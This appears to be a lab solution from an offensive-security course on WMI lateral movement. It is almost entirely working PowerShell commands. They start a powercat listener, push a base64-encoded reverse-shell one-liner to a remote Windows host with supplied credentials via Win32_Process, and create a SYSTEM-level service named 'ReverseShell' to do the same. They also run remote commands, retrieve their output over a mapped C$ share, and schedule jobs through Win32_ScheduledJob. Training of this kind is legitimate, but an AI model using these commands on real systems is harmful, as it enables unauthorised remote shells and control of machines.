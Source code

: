 ## Hands On 7 - Lateral Movement, Reverse Shell

Solution uses the following resources: 
- PowerShell reverse shell from PayloadOfAllThings: [Powershell Oneliner Reverse Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)
- powercat as the listener: [powercat](https://github.com/besimorhino/powercat)

#### Get a reverse shell on WMI server using Win32_Process
Start the listner:

`powercat -l -v -p 4242 -t 1000`

Start the client up
```
$utfbytes  = [System.Text.Encoding]::Unicode.GetBytes((Get-Content '.\oneliner.txt'))
$base64string = [System.Convert]::ToBase64String($utfbytes)
Invoke-WmiMethod -Class win32_process -Name Create -ArgumentList "powershell -e $base64string" -Credential $user3_creds -ComputerName Win7x64
```

#### Get a reverse shell on a WMI server using Win32_Service
Start the listner:

`powercat -l -v -p 4242 -t 1000`

Start the client up
```
$utfbytes  = [System.Text.Encoding]::Unicode.GetBytes((Get-Content '.\oneliner.txt'))
$base64string = [System.Convert]::ToBase64String($utfbytes)
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $false,"My Reverse Shell",$errorcontrol,$null,$null,"ReverseShell","C:\Windows\System32\cmd.exe /c powershell -e $base64string",$null,$servicetype ,"Manual","NT AUTHORITY\SYSTEM","" -ComputerName Win7x64 -Credential $user3_creds
Get-WmiObject -class Win32_Service -Filter 'Name = "ReverseShell"' -ComputerName Win7x64 -Credential $user3_creds
Get-WmiObject -class Win32_Service -Filter 'Name = "ReverseShell"' -ComputerName Win7x64 -Credential $user3_creds | Invoke-WmiMethod -Name StartService
```

#### Retrieve output of Win32_Process by writing the output to a text file on a target box
```
$command = "cmd.exe /c ipconfig /all > C:\Windows\Temp\output.txt"
$utfbytes  = [System.Text.Encoding]::Unicode.GetBytes($command)
$base64string = [System.Convert]::ToBase64String($utfbytes)
Invoke-WmiMethod -Class win32_process -Name Create -ArgumentList "powershell -e $base64string" -Credential $user3_creds -ComputerName Win7x64
```

Use the following to map a PowerShell drive to retrieve the contents of the commands
```
New-PSDrive -Name "PSDrive" -PSProvider "FileSystem" -Root "\\Win7x64\C$"  -Credential $user3_creds
Get-ChildItem -Path PSDrive:
Get-Content -Path PSDrive:\Windows\temp\output.txt
```

Remove the drive when finished

`Remove-PSDrive -Name PSDrive`

#### Use Win32_ScheduledJob for command execution on any computers
`Invoke-WmiMethod -Class Win32_Scheduledjob -Name Create -ArgumentList "cmd.exe /c dir c:\users > C:\Windows\Temp\output.txt",$null,$null,$false,$false,********152300.000000-300 -ComputerName Win7x64 -Credential $user3_creds`

